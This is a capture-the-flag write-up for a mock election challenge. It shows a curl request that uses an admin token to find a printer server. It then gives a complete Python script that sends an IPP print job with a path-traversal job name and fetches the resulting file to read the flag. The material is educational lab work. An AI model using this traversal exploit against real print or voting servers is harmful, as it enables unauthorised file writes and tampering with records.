 # Who checks the integrity of the integrity checks?
In this challenge, we're told that there was a mismatch in votes and asked if it's possible to tamper with the printed receipts. We're given the source code for a printer server, but no address for where its located. 
### Finding the Server
When attempting to solve this challenge, you should already have the address for the mobile voting app backend, as well as have found the private polling key to allow access to the admin API functions. In those functions there's a `/get-config` endpoint which will return the current config for the polling location that our authentication key was generated for. 
```shell
dot@stuff:~/Development/CTF/Archive/cysea 2025/week 4$ curl http://mobile-app.commission.freedonia.vote/api/admin/get-config -H "Authorization: Bearer 6e6f747468657265616c746f6b656e"
{"printer":"192.168.1.1"}
```
We now have the IP for the printer server that we can use for the next step.
### Printing the Flag
Looking at the source code for the printer server, our goal is to pass a print job to the server where we use path traversal to print the flag in the challenge target directory rather than the default print job folder. As there's no checks for path traversal this will be fairly straight forward, however we do need to format our payload as an IPP print job, and provide the path as the job name. We can copy the code from the `send_ipp_print_job` function in the mobile backend code, adapting it to our requirements. We then need to fetch the "printed" file from the print server.
```python
import re
import requests
import struct

def send_ipp_print_job(ip, print_path, payload):
    # Attempt to simulate IPP packet
    ipp_request = b""
    ipp_request += struct.pack(">BB", 0x02, 0x00)
    ipp_request += struct.pack(">H", 0x0002)
    ipp_request += struct.pack(">I", 1)
    ipp_request += b"\x01"

    def add_attr(name, value, tag=b"\x42"):
        ipp_request_list = []
        ipp_request_list.append(tag)
        ipp_request_list.append(struct.pack(">H", len(name)))
        ipp_request_list.append(name.encode())
        ipp_request_list.append(struct.pack(">H", len(value)))
        ipp_request_list.append(value.encode())
        return b"".join(ipp_request_list)

    ipp_request += add_attr("attributes-charset", "utf-8", b"\x47")
    ipp_request += add_attr("attributes-natural-language", "en", b"\x48")
    ipp_request += add_attr("printer-uri", f"http://{ip}/printers/votes", b"\x45")
    ipp_request += add_attr("requesting-user-name", "printer")
    ipp_request += add_attr("job-name", print_path)
    ipp_request += b"\x03"
    ipp_request += payload

    url = f"http://{ip}/printers/votes"
    headers = {
        "Content-Type": "application/ipp"
    }

    print(requests.post(url, headers=headers, data=ipp_request, timeout=5))

target_ip = "192.168.1.1"
print_filename = "flag_4d7f9c.txt"
send_ipp_print_job(target_ip, f"../winners/{print_filename}", b"testing")
result = requests.get(f"http://{target_ip}/files/{print_filename}")
print(result.text)
```
Our print job payload is sent, and we then request the resulting file from the server. After running the script the flag should be printed in the console!